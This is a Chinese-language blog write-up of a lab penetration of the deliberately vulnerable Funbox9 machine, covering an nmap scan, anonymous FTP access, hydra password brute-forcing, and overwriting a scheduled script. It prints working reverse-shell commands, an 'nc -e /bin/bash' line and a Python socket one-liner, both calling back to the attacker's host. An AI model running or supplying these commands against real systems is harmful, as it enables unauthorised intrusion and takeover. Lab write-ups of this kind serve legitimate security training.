 ```yaml
---
layout: post
title: "通过nc获取靶机的反弹Shell [靶机实战]"
date: "2023-05-26T01:07:25.366Z"
---
```

通过nc获取靶机的反弹Shell \[靶机实战\]
=========================

**1、环境**
========

Kali：172.30.1.3/24

靶机(Funbox9)：172.30.1.129/24

* * *

2、信息收集
======

通过nmap扫描此主机，我们需要获取到开放的端口以及服务的Banner

1 nmap -sV -T5 -A 172.30.1.129

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525190945425-463999557.png)

 通过扫描我们发现，目标主机开放着21端口，服务Banner是 vsftpd 2.3.4，并且允许匿名登录

* * *

**我们尝试ftp匿名连接此主机：**

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525191137276-1697199069.png)

 根据其返回信息，我们发现了一个可能是一个本地用户的信息：sky用户，可以看到此用户是一个管理员

* * *

**我们可以尝试对此用户进行ftp密码的爆破，看看能不能获取到其密码(可能无法成功)：**

1 hydra -l sky -P /usr/share/wordlists/rockyou.txt ftp://172.30.1.129

**跑了一段时间后，这是最终的结果：**

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525193105930-35201.png)

 sky用户的密码为**thebest；我们尝试连接：**

登录后我们发现，sky并没有被困在 chroot中：

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525193300363-1578033990.png)

 我们可以以此为突破点，搞一些别的事情，但这里我们试着通过nc建立一个反向shell

**user.flag 文件** sky用户有着写与执行的权限

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525193402949-456617527.png)

 将此文件下载后发现，这是一个脚本文件，再进行推理，很可能是一个由系统周期运行的脚本

所以我们可以重写此脚本，然后上传

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525193522420-1181014687.png)

* * *

考虑到一般这种系统的安全防护做的很高，所以此时我们直接通过 

nc -nv 172.30.1.3 -e /bin/bash

这种方法可能无法成功建立连接

于是我们使用以下方法来进行连接：

将此命令插入到脚本中，并且上传，这是一个通过python实现的反弹shell，更多方式大家可以去看这个网站：**[Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)**

export RHOST="172.30.1.3";export RPORT=25565;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));\[os.dup2(s.fileno(),fd) for fd in (0,1,2)\];pty.spawn("sh")'

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525193930534-1096521582.png)

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525193932061-1722235564.png)

* * *

随后，我们在本地监听25565端口，等待连接：

1 nc -lvnp 25565

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525194032495-1655729763.png)

* * *

靶机成功运行此脚本，证明我们的推理是正确的：

![](https://img2023.cnblogs.com/blog/2965751/202305/2965751-20230525194630929-1273606337.png)

 最终，我们获取了 **sarah** 的shell

* * *

PS：

从渗透的角度来看，还可以通过 vsftpd 2.3.4 这个版本通过msf直接利用后门漏洞也是可以的